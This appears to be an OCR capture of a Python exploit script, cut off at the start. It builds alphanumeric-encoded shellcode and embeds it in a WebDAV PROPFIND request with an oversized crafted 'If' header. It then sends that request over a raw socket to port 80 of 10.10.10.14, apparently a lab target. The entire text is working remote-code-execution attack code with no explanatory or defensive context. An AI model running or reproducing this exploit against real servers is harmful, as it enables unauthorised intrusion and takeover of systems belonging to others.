 ```python
shellcode += b"\x70\x50\x51\x46\x70\x56\x70\x56\x6d\x76\x6e"
shellcode += b"\x76\x30\x4e\x4e\x76\x31\x46\x52\x33\x61\x46"
shellcode += b"\x32\x48\x31\x69\x68\x4c\x4f\x4f\x33\x56\x6b"
shellcode += b"\x4f\x36\x75\x35\x39\x77\x70\x6e\x6e\x52\x36"
shellcode += b"\x50\x46\x59\x6f\x6e\x50\x73\x38\x5a\x68\x63"
shellcode += b"\x57\x6d\x4d\x73\x30\x39\x6f\x69\x45\x35\x6b"
shellcode += b"\x68\x70\x76\x55\x64\x62\x62\x36\x61\x58\x67"
shellcode += b"\x36\x74\x55\x65\x6d\x73\x6d\x79\x6f\x58\x55"
shellcode += b"\x6f\x4c\x6d\x36\x43\x4c\x6a\x6a\x71\x70\x79"
shellcode += b"\x6b\x59\x50\x52\x55\x49\x75\x77\x4b\x70\x47"
shellcode += b"\x7a\x73\x73\x42\x42\x4f\x71\x5a\x69\x70\x4e"
shellcode += b"\x73\x6b\x4f\x4a\x35\x41\x41"

payload  = b'PROPFIND / HTTP/1.1\r\nHost: 10.10.10.14\r\nContent-Length: 0\r\n'
payload += b'If: <http://10.10.10.14/aaaaaaa'
payload += b'\xe6\xbd\xa8\xe7\xa1\xa3\xe7\x9d\xa1\xe7\x84\xb3\xe6\xa4\xb6\xe4\x9d\xb2\xe7\xa8\xb9\xe4\xad\xb7\xe4\xbd\xb0\xe7\x95\x93\xe7\xa9\x8f\xe4\xa1\xa8\xe5\x99\xa3\xe6\xb5\x94\xe6\xa1\x85\xe3\xa5\x93\xe5\x81\xac\xe5\x95\xa7\xe6\x9d\xa3\xe3\x8d\xa4\xe4\x98\xb0\xe7\xa1\x85\xe6\xa5\x92\xe5\x90\xb1\xe4\xb1\x98\xe6\xa9\x91\xe7\x89\x81\xe4\x88\xb1\xe7\x80\xb5\xe5\xa1\x90\xe3\x99\xa4\xe6\xb1\x87\xe3\x94\xb9\xe5\x91\xaa\xe5\x80\xb4\xe5\x91\x83\xe7\x9d\x92\xe5\x81\xa1\xe3\x88\xb2\xe6\xb5\x8b\xe6\xb0\xb4\xe3\x89\x87\xe6\x89\x81\xe3\x9d\x8d\xe5\x85\xa1\xe5\xa1\xa2\xe4\x9d\xb3\xe5\x89\x90\xe3\x99\xb0\xe7\x95\x84\xe6\xa1\xaa\xe3\x8d\xb4\xe4\xb9\x8a\xe7\xa1\xab\xe4\xa5\xb6\xe4\xb9\xb3\xe4\xb1\xaa\xe5\x9d\xba\xe6\xbd\xb1\xe5\xa1\x8a\xe3\x88\xb0\xe3\x9d\xae\xe4\xad\x89\xe5\x89\x8d\xe4\xa1\xa3\xe6\xbd\x8c\xe7\x95\x96\xe7\x95\xb5\xe6\x99\xaf\xe7\x99\xa8\xe4\x91\x8d\xe5\x81\xb0\xe7\xa8\xb6\xe6\x89\x8b\xe6\x95\x97\xe7\x95\x90\xe6\xa9\xb2\xe7\xa9\xab\xe7\x9d\xa2\xe7\x99\x98\xe6\x89\x88\xe6\x94\xb1\xe3\x81\x94\xe6\xb1\xb9\xe5\x81\x8a\xe5\x91\xa2\xe5\x80\xb3\xe3\x95\xb7\xe6\xa9\xb7\xe4\x85\x84\xe3\x8c\xb4\xe6\x91\xb6\xe4\xb5\x86\xe5\x99\x94\xe4\x9d\xac\xe6\x95\x83\xe7\x98\xb2\xe7\x89\xb8\xe5\x9d\xa9\xe4\x8c\xb8\xe6\x89\xb2\xe5\xa8\xb0\xe5\xa4\xb8\xe5\x91\x88\xc8\x82\xc8\x82\xe1\x8b\x80\xe6\xa0\x83\xe6\xb1\x84\xe5\x89\x96\xe4\xac\xb7\xe6\xb1\xad\xe4\xbd\x98\xe5\xa1\x9a\xe7\xa5\x90\xe4\xa5\xaa\xe5\xa1\x8f\xe4\xa9\x92\xe4\x85\x90\xe6\x99\x8d\xe1\x8f\x80\xe6\xa0\x83\xe4\xa0\xb4\xe6\x94\xb1\xe6\xbd\x83\xe6\xb9\xa6\xe7\x91\x81\xe4\x8d\xac\xe1\x8f\x80\xe6\xa0\x83\xe5\x8d\x83\xe6\xa9\x81\xe7\x81\x92\xe3\x8c\xb0\xe5\xa1\xa6\xe4\x89\x8c\xe7\x81\x8b\xe6\x8d\x86\xe5\x85\xb3\xe7\xa5\x81\xe7\xa9\x90\xe4\xa9\xac'
payload += b'> (Not <locktoken:write1>) <http://10.10.10.14/bbbbbbb'
payload += b'\xe7\xa5\x88\xe6\x85\xb5\xe4\xbd\x83\xe6\xbd\xa7\xe6\xad\xaf\xe4\xa1\x85\xe3\x99\x86\xe6\x9d\xb5\xe4\x90\xb3\xe3\xa1\xb1\xe5\x9d\xa5\xe5\xa9\xa2\xe5\x90\xb5\xe5\x99\xa1\xe6\xa5\x92\xe6\xa9\x93\xe5\x85\x97\xe3\xa1\x8e\xe5\xa5\x88\xe6\x8d\x95\xe4\xa5\xb1\xe4\x8d\xa4\xe6\x91\xb2\xe3\x91\xa8\xe4\x9d\x98\xe7\x85\xb9\xe3\x8d\xab\xe6\xad\x95\xe6\xb5\x88\xe5\x81\x8f\xe7\xa9\x86\xe3\x91\xb1\xe6\xbd\x94\xe7\x91\x83\xe5\xa5\x96\xe6\xbd\xaf\xe7\x8d\x81\xe3\x91\x97\xe6\x85\xa8\xe7\xa9\xb2\xe3\x9d\x85\xe4\xb5\x89\xe5\x9d\x8e\xe5\x91\x88\xe4\xb0\xb8\xe3\x99\xba\xe3\x95\xb2\xe6\x89\xa6\xe6\xb9\x83\xe4\xa1\xad\xe3\x95\x88\xe6\x85\xb7\xe4\xb5\x9a\xe6\x85\xb4\xe4\x84\xb3\xe4\x8d\xa5\xe5\x89\xb2\xe6\xb5\xa9\xe3\x99\xb1\xe4\xb9\xa4\xe6\xb8\xb9\xe6\x8d\x93\xe6\xad\xa4\xe5\x85\x86\xe4\xbc\xb0\xe7\xa1\xaf\xe7\x89\x93\xe6\x9d\x90\xe4\x95\x93\xe7\xa9\xa3\xe7\x84\xb9\xe4\xbd\x93\xe4\x91\x96\xe6\xbc\xb6\xe7\x8d\xb9\xe6\xa1\xb7\xe7\xa9\x96\xe6\x85\x8a\xe3\xa5\x85\xe3\x98\xb9\xe6\xb0\xb9\xe4\x94\xb1\xe3\x91\xb2\xe5\x8d\xa5\xe5\xa1\x8a\xe4\x91\x8e\xe7\xa9\x84\xe6\xb0\xb5\xe5\xa9\x96\xe6\x89\x81\xe6\xb9\xb2\xe6\x98\xb1\xe5\xa5\x99\xe5\x90\xb3\xe3\x85\x82\xe5\xa1\xa5\xe5\xa5\x81\xe7\x85\x90\xe3\x80\xb6\xe5\x9d\xb7\xe4\x91\x97\xe5\x8d\xa1\xe1\x8f\x80\xe6\xa0\x83\xe6\xb9\x8f\xe6\xa0\x80\xe6\xb9\x8f\xe6\xa0\x80\xe4\x89\x87\xe7\x99\xaa\xe1\x8f\x80\xe6\xa0\x83\xe4\x89\x97\xe4\xbd\xb4\xe5\xa5\x87\xe5\x88\xb4\xe4\xad\xa6\xe4\xad\x82\xe7\x91\xa4\xe7\xa1\xaf\xe6\x82\x82\xe6\xa0\x81\xe5\x84\xb5\xe7\x89\xba\xe7\x91\xba\xe4\xb5\x87\xe4\x91\x99\xe5\x9d\x97\xeb\x84\x93\xe6\xa0\x80\xe3\x85\xb6\xe6\xb9\xaf\xe2\x93\xa3\xe6\xa0\x81\xe1\x91\xa0\xe6\xa0\x83\xcc\x80\xe7\xbf\xbe\xef\xbf\xbf\xef\xbf\xbf\xe1\x8f\x80\xe6\xa0\x83\xd1\xae\xe6\xa0\x83\xe7\x85\xae\xe7\x91\xb0\xe1\x90\xb4\xe6\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81\xe9\x8e\x91\xe6\xa0\x80\xe3\xa4\xb1\xe6\x99\xae\xe4\xa5\x95\xe3\x81\x92\xe5\x91\xab\xe7\x99\xab\xe7\x89\x8a\xe7\xa5\xa1\xe1\x90\x9c\xe6\xa0\x83\xe6\xb8\x85\xe6\xa0\x80\xe7\x9c\xb2\xe7\xa5\xa8\xe4\xb5\xa9\xe3\x99\xac\xe4\x91\xa8\xe4\xb5\xb0\xe8\x89\x86\xe6\xa0\x80\xe4\xa1\xb7\xe3\x89\x93\xe1\xb6\xaa\xe6\xa0\x82\xe6\xbd\xaa\xe4\x8c\xb5\xe1\x8f\xb8\xe6\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81'
payload += shellcode
payload += b'>\r\n\r\n'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.10.10.14', 80))
s.send(payload)
time.sleep(1)
```